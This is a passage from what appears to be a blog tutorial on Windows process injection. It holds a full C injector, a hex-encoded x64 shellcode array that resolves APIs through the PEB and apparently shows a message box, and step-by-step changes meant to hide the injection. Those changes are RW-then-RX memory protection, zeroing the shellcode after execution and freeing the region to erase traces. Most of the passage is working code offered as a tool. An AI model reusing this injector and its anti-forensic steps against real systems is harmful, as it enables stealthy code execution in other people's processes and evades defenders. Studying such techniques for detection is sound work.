0x0F, 0xB7, 0x04, 0x54, 0x41, 0x8B, 0x3C, 0x87, 0x49, 0x03, 0xFB, 0x41,
0xFF, 0xC2, 0x45, 0x3B, 0xD6, 0x72, 0xA5, 0x48, 0x8B, 0xB4, 0x24, 0xC0,
0x00, 0x00, 0x00, 0x48, 0x85, 0xFF, 0x74, 0x2A, 0x48, 0x8D, 0x55, 0xF7,
0x49, 0x8B, 0xCB, 0xFF, 0xD7, 0x48, 0x8D, 0x4D, 0xD7, 0xFF, 0xD0, 0x48,
0x8D, 0x55, 0xE7, 0x48, 0x8B, 0xC8, 0xFF, 0xD7, 0x45, 0x33, 0xC9, 0x4C,
0x8D, 0x05, 0x36, 0x0D, 0x00, 0x00, 0x48, 0x8D, 0x55, 0xC7, 0x33, 0xC9,
0xFF, 0xD0, 0x4C, 0x8B, 0xB4, 0x24, 0x98, 0x00, 0x00, 0x00, 0x4C, 0x8B,
0xAC, 0x24, 0xA0, 0x00, 0x00, 0x00, 0x4C, 0x8B, 0xA4, 0x24, 0xD0, 0x00,
0x00, 0x00, 0x48, 0x8B, 0xBC, 0x24, 0xC8, 0x00, 0x00, 0x00, 0x4C, 0x8B,
0xBC, 0x24, 0x90, 0x00, 0x00, 0x00, 0x48, 0x81, 0xC4, 0xA8, 0x00, 0x00,
0x00, 0x5B, 0x5D, 0xC3
};
In the last section, we implement Injector Process with the shellcode we created. Roll back to the technique, we need to attach PID, allocate memory then writes the shellcode and finally execute it.
Attach the process id with OpenProcess. Set the DesiredAccess to PROCESS_ALL_ACCESS - All possible access rights for a process object
handle_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_process_id);
if (!handle_process) return 0;Next step to allocate memory region in Target process with VirtualAllocEx. The postfix Ex used for remote process. With appropriate privileges: READ-WRITE-EXECUTE
remote_buffer = VirtualAllocEx(handle_process, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!remote_buffer) return 0;
if (!WriteProcessMemory(handle_process, remote_buffer, shellcode, sizeof(shellcode), NULL)) return 0;Final step, create a thread that point to memory region to execute the shellcode
handle_thread = CreateRemoteThread(handle_process, NULL, 0, (LPTHREAD_START_ROUTINE)remote_buffer, NULL, 0, NULL);
if (!handle_thread) return 0;
CloseHandle(handle_process);
return 1;
Gif shows result as following

So, the shellcode was injected into notepad process successfully. But when I check notepad process's memory with Process Hacker and across this notice

Did you notice anything unusual? At the memory address 0x2b272dc0000 this region has the unusual privilege RWX. Open this and we will see our shellcode

Reverse this HEX to
ASM and we may get the
shellcode logic.
So I decide to make this shellcode more inconspicuous.
From last step we allocate memory with RWX privilege, which easily attracts attention. To avoid this, we make the privilege begin with RW as normal, then change it to RX to execute. Demonstrated as following:
handle_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_process_id);
if (!handle_process) return 0;
// protection first RD
remote_buffer = VirtualAllocEx(handle_process, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!remote_buffer) return 0;
if (!WriteProcessMemory(handle_process, remote_buffer, shellcode, sizeof(shellcode), NULL)) return 0;
// change protection to RX
DWORD old_protect;
if (!VirtualProtectEx(handle_process, remote_buffer, sizeof(shellcode), PAGE_EXECUTE_READ, &old_protect)) {
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
return 0;
};
handle_thread = CreateRemoteThread(handle_process, NULL, 0, (LPTHREAD_START_ROUTINE)remote_buffer, NULL, 0, NULL);
if (!handle_thread) return 0;
CloseHandle(handle_process);
return 1;As a result, it's harder to detect, but with persistent opening and checking each memory region, it can still be discovered.

So I wonder how to make it as inconspicuous as possible. And I decided to remove its memory region after the shellcode is done executed
WaitForSingleObject(handle_thread, INFINITE);
// set 0 to memory region
memset(shellcode, 0, sizeof(shellcode));
if (!VirtualProtectEx(handle_process, remote_buffer, sizeof(shellcode), PAGE_READWRITE, &old_protect)) {
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
return 0;
};
if (!WriteProcessMemory(handle_process, remote_buffer, shellcode, sizeof(shellcode), NULL)) return 0;See the different below:
The first two image shown the inject was successfully and shellcode is existed in target process's memory


Now, clear that memory when shellcode's task is done. Result presented as gif below

This approach can make it difficult to determine the logic of the shell code. However, why is there a memory region full of zeros that doesn't belong to any module?...
To completely erase all traces from memory, I would delete that memory region at the end.
WaitForSingleObject(handle_thread, INFINITE);
// set 0 to memory region
memset(shellcode, 0, sizeof(shellcode));
if (!VirtualProtectEx(handle_process, remote_buffer, sizeof(shellcode), PAGE_READWRITE, &old_protect)) {
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
return 0;
};
if (!WriteProcessMemory(handle_process, remote_buffer, shellcode, sizeof(shellcode), NULL)) return 0;
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE); // <-- remove the memory regionHowever, there might still be some traces somewhere that I haven't yet discovered.
And I also make some upgrades for our Injector, which is snapshot on all current process, also option to inject the message box. You can fine full source code as below
#include <windows.h>
#include <winternl.h>
#include <TlHelp32.h>
#include <stdio.h>
void snap_process() {
HANDLE handle_snapshot_process;
PROCESSENTRY32W process_entry;
process_entry.dwSize = sizeof(PROCESSENTRY32W);
handle_snapshot_process = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (!handle_snapshot_process) return;
if (Process32First(handle_snapshot_process, &process_entry)) {
do {
wprintf(L"PID: %d | %ls\n",
process_entry.th32ProcessID,
process_entry.szExeFile);
} while (Process32Next(handle_snapshot_process, &process_entry));
}
else return;
}
int inject_shellcode(int target_process_id) {
unsigned char shellcode[771] = {
0x55, 0x53, 0x48, 0x8D, 0x6C, 0x24, 0xB1, 0x48, 0x81, 0xEC, 0xA8,
0x00, 0x00, 0x00, 0x33, 0xC0, 0xC7, 0x45, 0x17, 0x6B, 0x00, 0x65, 0x00,
0x66, 0x89, 0x45, 0x2F, 0x4C, 0x8D, 0x4D, 0x07, 0x88, 0x45, 0xE1, 0x33,
0xDB, 0x88, 0x45, 0x03, 0xBA, 0x6B, 0x00, 0x00, 0x00, 0x88, 0x45, 0x15,
0xB1, 0x47, 0x88, 0x45, 0xCF, 0xC7, 0x45, 0x1B, 0x72, 0x00, 0x6E, 0x00,
0xC7, 0x45, 0x1F, 0x65, 0x00, 0x6C, 0x00, 0xC7, 0x45, 0x23, 0x33, 0x00,
0x32, 0x00, 0xC7, 0x45, 0x27, 0x2E, 0x00, 0x64, 0x00, 0xC7, 0x45, 0x2B,
0x6C, 0x00, 0x6C, 0x00, 0xC7, 0x45, 0xD7, 0x75, 0x73, 0x65, 0x72, 0xC7,
0x45, 0xDB, 0x33, 0x32, 0x2E, 0x64, 0x66, 0xC7, 0x45, 0xDF, 0x6C, 0x6C,
0xC7, 0x45, 0xF7, 0x4C, 0x6F, 0x61, 0x64, 0xC7, 0x45, 0xFB, 0x4C, 0x69,
0x62, 0x72, 0xC7, 0x45, 0xFF, 0x61, 0x72, 0x79, 0x41, 0xC7, 0x45, 0xE7,
0x4D, 0x65, 0x73, 0x73, 0xC7, 0x45, 0xEB, 0x61, 0x67, 0x65, 0x42, 0xC7,
0x45, 0xEF, 0x6F, 0x78, 0x41, 0x00, 0xC7, 0x45, 0x07, 0x47, 0x65, 0x74,
0x50, 0xC7, 0x45, 0x0B, 0x72, 0x6F, 0x63, 0x41, 0xC7, 0x45, 0x0F, 0x64,
0x64, 0x72, 0x65, 0x66, 0xC7, 0x45, 0x13, 0x73, 0x73, 0xC7, 0x45, 0xC7,
0x69, 0x6E, 0x6A, 0x65, 0xC7, 0x45, 0xCB, 0x63, 0x74, 0x65, 0x64, 0x90,
0x80, 0xF9, 0x61, 0x7C, 0x13, 0x8D, 0x41, 0xE0, 0x80, 0xF9, 0x7A, 0x44,
0x0F, 0xB6, 0xC0, 0x0F, 0xB6, 0xC1, 0x44, 0x0F, 0x4F, 0xC0, 0xEB, 0x04,
0x44, 0x0F, 0xB6, 0xC1, 0x41, 0x0F, 0xB6, 0x49, 0x01, 0x49, 0xFF, 0xC1,
0xC1, 0xCB, 0x0D, 0x41, 0x0F, 0xBE, 0xC0, 0x03, 0xD8, 0x84, 0xC9, 0x75,
0xCF, 0x48, 0x8D, 0x4D, 0x17, 0x45, 0x33, 0xC9, 0x66, 0x83, 0xFA, 0x61,
0x72, 0x0D, 0x66, 0x83, 0xFA, 0x7A, 0x8D, 0x42, 0xE0, 0x66, 0x0F, 0x47,
0xC2, 0xEB, 0x03, 0x0F, 0xB7, 0xC2, 0x48, 0x83, 0xC1, 0x02, 0x41, 0xC1,
0xC9, 0x0D, 0x0F, 0xB7, 0xC0, 0x44, 0x03, 0xC8, 0x0F, 0xB7, 0x01, 0x0F,
0xB7, 0xD0, 0x66, 0x85, 0xC0, 0x75, 0xD1, 0x65, 0x48, 0x8B, 0x04, 0x25,
0x60, 0x00, 0x00, 0x00, 0x4C, 0x8B, 0x58, 0x18, 0x49, 0x83, 0xC3, 0x20,
0x4D, 0x8B, 0x13, 0x4D, 0x3B, 0xD3, 0x0F, 0x84, 0xB6, 0x01, 0x00, 0x00,
0x4D, 0x8B, 0x42, 0x50, 0x4D, 0x85, 0xC0, 0x74, 0x3B, 0x41, 0x0F, 0xB7,
0x00, 0x33, 0xD2, 0x66, 0x85, 0xC0, 0x74, 0x2B, 0x66, 0x83, 0xF8, 0x61,
0x72, 0x0D, 0x66, 0x83, 0xF8, 0x7A, 0x8D, 0x48, 0xE0, 0x66, 0x0F, 0x47,
0xC8, 0xEB, 0x03, 0x0F, 0xB7, 0xC8, 0x49, 0x83, 0xC0, 0x02, 0xC1, 0xCA,
0x0D, 0x0F, 0xB7, 0xC1, 0x03, 0xD0, 0x41, 0x0F, 0xB7, 0x00, 0x66, 0x85,
0xC0, 0x75, 0xD5, 0x41, 0x3B, 0xD1, 0x74, 0x12, 0x4D, 0x8B, 0x12, 0x4D,
0x3B, 0xD3, 0x75, 0xB4, 0x48, 0x81, 0xC4, 0xA8, 0x00, 0x00, 0x00, 0x5B,
0x5D, 0xC3, 0x4D, 0x8B, 0x5A, 0x20, 0x4D, 0x85, 0xDB, 0x0F, 0x84, 0x53,
0x01, 0x00, 0x00, 0xB8, 0x4D, 0x5A, 0x00, 0x00, 0x66, 0x41, 0x39, 0x03,
0x0F, 0x85, 0x44, 0x01, 0x00, 0x00, 0x49, 0x63, 0x43, 0x3C, 0x85, 0xC0,
0x0F, 0x84, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0xC8, 0x49, 0x03, 0xCB,
0x0F, 0x84, 0x2C, 0x01, 0x00, 0x00, 0x81, 0x39, 0x50, 0x45, 0x00, 0x00,
0x0F, 0x85, 0x20, 0x01, 0x00, 0x00, 0x8B, 0x81, 0x88, 0x00, 0x00, 0x00,
0x45, 0x33, 0xD2, 0x48, 0x89, 0xBC, 0x24, 0xC8, 0x00, 0x00, 0x00, 0x33,
0xFF, 0x4C, 0x89, 0xA4, 0x24, 0xD0, 0x00, 0x00, 0x00, 0x4C, 0x89, 0xAC,
0x24, 0xA0, 0x00, 0x00, 0x00, 0x46, 0x8B, 0x6C, 0x18, 0x20, 0x46, 0x8B,
0x64, 0x18, 0x24, 0x4D, 0x03, 0xEB, 0x4C, 0x89, 0xB4, 0x24, 0x98, 0x00,
0x00, 0x00, 0x4D, 0x03, 0xE3, 0x46, 0x8B, 0x74, 0x18, 0x18, 0x4C, 0x89,
0xBC, 0x24, 0x90, 0x00, 0x00, 0x00, 0x46, 0x8B, 0x7C, 0x18, 0x1C, 0x4D,
0x03, 0xFB, 0x45, 0x85, 0xF6, 0x0F, 0x84, 0x9F, 0x00, 0x00, 0x00, 0x48,
0x89, 0xB4, 0x24, 0xC0, 0x00, 0x00, 0x00, 0x0F, 0x1F, 0x44, 0x00, 0x00,
0x47, 0x8B, 0x4C, 0x95, 0x00, 0x45, 0x33, 0xC0, 0x4D, 0x03, 0xCB, 0x41,
0x0F, 0xB6, 0x09, 0x84, 0xC9, 0x74, 0x2F, 0x80, 0xF9, 0x61, 0x7C, 0x11,
0x8D, 0x41, 0xE0, 0x80, 0xF9, 0x7A, 0x0F, 0xB6, 0xD0, 0x0F, 0xB6, 0xC1,
0x0F, 0x4F, 0xD0, 0xEB, 0x03, 0x0F, 0xB6, 0xD1, 0x41, 0x0F, 0xB6, 0x49,
0x01, 0x49, 0xFF, 0xC1, 0x41, 0xC1, 0xC8, 0x0D, 0x0F, 0xBE, 0xC2, 0x44,
0x03, 0xC0, 0x84, 0xC9, 0x75, 0xD1, 0x44, 0x3B, 0xC3, 0x75, 0x0C, 0x43,
0x0F, 0xB7, 0x04, 0x54, 0x41, 0x8B, 0x3C, 0x87, 0x49, 0x03, 0xFB, 0x41,
0xFF, 0xC2, 0x45, 0x3B, 0xD6, 0x72, 0xA5, 0x48, 0x8B, 0xB4, 0x24, 0xC0,
0x00, 0x00, 0x00, 0x48, 0x85, 0xFF, 0x74, 0x2A, 0x48, 0x8D, 0x55, 0xF7,
0x49, 0x8B, 0xCB, 0xFF, 0xD7, 0x48, 0x8D, 0x4D, 0xD7, 0xFF, 0xD0, 0x48,
0x8D, 0x55, 0xE7, 0x48, 0x8B, 0xC8, 0xFF, 0xD7, 0x45, 0x33, 0xC9, 0x4C,
0x8D, 0x05, 0x36, 0x0D, 0x00, 0x00, 0x48, 0x8D, 0x55, 0xC7, 0x33, 0xC9,
0xFF, 0xD0, 0x4C, 0x8B, 0xB4, 0x24, 0x98, 0x00, 0x00, 0x00, 0x4C, 0x8B,
0xAC, 0x24, 0xA0, 0x00, 0x00, 0x00, 0x4C, 0x8B, 0xA4, 0x24, 0xD0, 0x00,
0x00, 0x00, 0x48, 0x8B, 0xBC, 0x24, 0xC8, 0x00, 0x00, 0x00, 0x4C, 0x8B,
0xBC, 0x24, 0x90, 0x00, 0x00, 0x00, 0x48, 0x81, 0xC4, 0xA8, 0x00, 0x00,
0x00, 0x5B, 0x5D, 0xC3
};
HANDLE handle_process;
HANDLE handle_thread;
PVOID remote_buffer = NULL;
handle_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_process_id);
if (!handle_process) return 0;
// protection first RD
remote_buffer = VirtualAllocEx(handle_process, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!remote_buffer) return 0;
if (!WriteProcessMemory(handle_process, remote_buffer, shellcode, sizeof(shellcode), NULL)) return 0;
// change protection to RX
DWORD old_protect;
if (!VirtualProtectEx(handle_process, remote_buffer, sizeof(shellcode), PAGE_EXECUTE_READ, &old_protect)) {
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
return 0;
};
handle_thread = CreateRemoteThread(handle_process, NULL, 0, (LPTHREAD_START_ROUTINE)remote_buffer, NULL, 0, NULL);
if (!handle_thread) return 0;
WaitForSingleObject(handle_thread, INFINITE);
// set 0 to memory region
memset(shellcode, 0, sizeof(shellcode));
if (!VirtualProtectEx(handle_process, remote_buffer, sizeof(shellcode), PAGE_READWRITE, &old_protect)) {
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE);
return 0;
};
if (!WriteProcessMemory(handle_process, remote_buffer, shellcode, sizeof(shellcode), NULL)) return 0;
VirtualFreeEx(handle_process, remote_buffer, 0, MEM_RELEASE); // <- Free memory region
CloseHandle(handle_process);
return 1;
}
int main() {
INT option;
while (TRUE) {
wprintf_s(L"01. Snap all process\n02.Inject\n");
wprintf_s(L"------------------\n");
wprintf_s(L"Your option: ");
scanf_s("%d", &option);
switch (option) {
case 1: {
snap_process();
break;
}
case 2: {
int PID;
wprintf_s(L"Inject to: ");
scanf_s("%d", &PID);
if (inject_shellcode(PID)) {
wprintf(L"Injected\n");
}
else {
wprintf(L"Failed to inject\n");
}
break;
}
default:
return 0;
}
}
return 0;
}